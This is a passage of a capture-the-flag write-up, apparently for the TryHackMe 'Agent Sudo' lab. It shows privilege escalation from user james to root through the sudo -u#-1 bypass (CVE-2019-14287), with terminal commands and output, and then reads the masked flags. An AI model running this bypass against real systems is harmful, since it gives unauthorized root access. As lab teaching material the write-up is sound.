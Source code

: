```bash
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
******************************
```

2. Now let's try to get fish around and escalate to some other worthwhile user as holt has nothing. We found in low hanging fruit `sudo -l`.

```bash
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

3. We find that old friend `bash` to be root runnable. This will allow us to run the system as root using [this](https://gtfobins.github.io/gtfobins/bash/#sudo).

## PRIVESC

1. Using the above method, we escalate to root. Din't work at first. Then found something interesting on the net for this use case. [ExploitDB](https://www.exploit-db.com/exploits/47502) shows us a priv esc technique exploiting the maliciously constructed id to mimic as root. Read more [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287).

```bash
james@agent-sudo:~$ sudo /bin/bash
Sorry, user james is not allowed to execute '/bin/bash' as root on agent-sudo.
james@agent-sudo:~$ sudo /bin/bash -p
Sorry, user james is not allowed to execute '/bin/bash -p' as root on agent-sudo.
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```

2.  We get in as effective user root. Let's go get our prize.

```bash
root@agent-sudo:~# cd /root/
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
******************************

By,
DesKel a.k.a Agent R
```
